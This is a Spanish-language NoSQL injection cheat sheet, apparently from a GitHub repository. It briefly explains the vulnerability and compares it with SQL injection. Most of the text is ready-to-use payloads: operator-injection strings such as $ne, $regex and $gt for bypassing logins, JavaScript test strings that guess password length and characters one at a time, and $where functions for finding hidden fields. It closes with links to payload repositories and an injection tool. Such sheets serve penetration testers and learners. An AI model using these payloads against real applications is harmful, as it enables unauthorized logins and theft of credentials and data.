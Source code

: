 ```yaml
---

### 💥 **NoSQL Injection Cheat Sheet** 💥

---
```


#### 📝 **¿Qué es una inyección NoSQL?**  

Las **inyecciones NoSQL** son vulnerabilidades de seguridad que afectan aplicaciones web que utilizan bases de datos NoSQL, como **MongoDB**, **Cassandra** y **CouchDB**.  
El atacante envía **datos maliciosos a través de una consulta** que se ejecuta sin validación o sanitización adecuada, logrando:  

- 📂 **Acceso no autorizado a información confidencial.**  
- ✏️ **Modificación de datos** en la base de datos.  
- 🔧 **Ejecución de acciones no deseadas** en el sistema.  

---

## 💡 **Diferencia entre SQLi y NoSQLi**  
| Aspecto               | SQL Injection                           | NoSQL Injection                        |
|-----------------------|-----------------------------------------|-----------------------------------------|
| Tipo de Base de Datos | Relacional (SQL)                         | No Relacional (NoSQL)                    |
| Lenguaje de Consulta  | SQL (Structured Query Language)          | MongoDB Query, JSON, u otros específicos |
| Vectores de Ataque    | Inyección en sentencias SQL              | Inyección en consultas basadas en objetos |
| Validación            | Explotación de sintaxis SQL              | Falta de validación en objetos JSON       |

---

### 💥 **Payloads para inyección NoSQL**

#### 🗃️ **Payloads en Parámetros (Data)**
```bash
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
```

#### 🧪 **Payloads de Prueba (Testing)**
```bash
'
' + '
'%2b'
' && '1' == '2  # URL encoded
' && '1' == '1  # URL encoded
administrator' && this.password.length > 7 || 'a'=='b  # URL encoded
administrator' && this.password[0] == 'k' || 'a'=='b   # URL encoded
```

---

### 📝 **Payloads en JSON**

#### 📋 **Evasión de Restricciones**
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

#### 🔑 **Consultas Avanzadas**
##### **Comprobar longitud de la contraseña:**
```json
{
    "username": "admin",
    "password": {
        "$regex": ".{29}"  # Longitud de 29 caracteres
    }
}
```

##### **Verificar el primer carácter:**
```json
{
    "username": "admin",
    "password": {
        "$regex": "^a"  # Empieza con "a"
    }
}
```

##### **Identificar el campo `_id`:**
```json
{
    "username": "carlos",
    "password": {"$ne": ""},
    "$where": "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0; }"
}
```

##### **Longitud de un campo oculto:**
```json
{
    "username": "carlos",
    "password": {"$ne": ""},
    "$where": "function(){ if(this.changePwd.length == 1) return 1; else 0; }"
}
```

##### **Comprobar el carácter inicial del campo oculto:**
```json
{
    "username": "carlos",
    "password": {"$ne": ""},
    "$where": "function(){ if(this.changePwd.match(/^a/)) return 1; else 0; }"
}
```

---

### 🔗 **Recursos adicionales:**
- Repositorio de Payloads:  
  [PayloadsAllTheThings - NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
  [NoSQLMap](https://github.com/codingo/NoSQLMap)
---
